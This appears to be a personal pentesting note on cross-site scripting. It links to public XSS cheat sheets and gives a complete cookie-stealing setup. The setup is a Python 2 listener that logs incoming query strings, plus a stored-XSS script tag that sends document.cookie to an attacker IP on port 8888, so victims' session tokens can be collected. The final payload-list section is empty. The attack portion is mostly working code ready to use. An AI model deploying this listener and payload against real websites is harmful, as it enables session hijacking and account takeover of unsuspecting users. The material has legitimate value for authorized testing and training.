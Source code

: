 ```yaml
---
title: XSS attacks 💀
---
```

> You should check [XSS Theory 🍣](/notes/Info/xss_theory.md)

## Testing Payloads

- [PortSwigger Theory and examples](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [OWASP collection](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

>Check my note [payloadbox XSS Payload List 🥝](/notes/Payloads/XSS/payloadbox.md)

## Scripts

- When performing an stored XSS, we have the following useful script (python2):

```python
#!/usr/bin/env python
# POC for cookie stealing through XSS
# Should work with:
# <script>
#   image = new Image();
#   image.src='http://X.X.X.X:8888/?'+document.cookie;
# </script>

# Written by Ahmed Shawky @lnxg33k

from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
from urlparse import urlparse, parse_qs
from datetime import datetime


class MyHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        query_components = parse_qs(urlparse(self.path).query)
        print ""
        print "%s - %s\t%s" % (
            datetime.now().strftime("%Y-%m-%d %I:%M %p"),
            self.client_address[0],
            self.headers['user-agent'])
        print "-------------------"*6
        for k, v in query_components.items():
            print "%s\t\t\t%s" % (k.strip(), v)

        # print query_components
        # self.send_response(500)

        # self.send_header("Content-type", "text/html")
        # self.end_headers()
        # self.wfile.write(c)

        return

    def log_message(self, format, *args):
        return

if __name__ == "__main__":
    try:
        server = HTTPServer(('0.0.0.0', 8888), MyHandler)
        print('Started http server')
        server.serve_forever()
    except KeyboardInterrupt:
        print('^C received, shutting down server')
        server.socket.close()
```

- Execute it
- Then we insert on the webpage the following XSS:

```shell
<script>
   image = new Image();
   image.src='http://IP_ATTCK:8888/?'+document.cookie;
</script>
```

- Then we should get some session tokens like this (when someone clicks on it):

![](Pasted%20image%2020240210145953.png)

## Lists of payloads (large)

### a

```shell

```
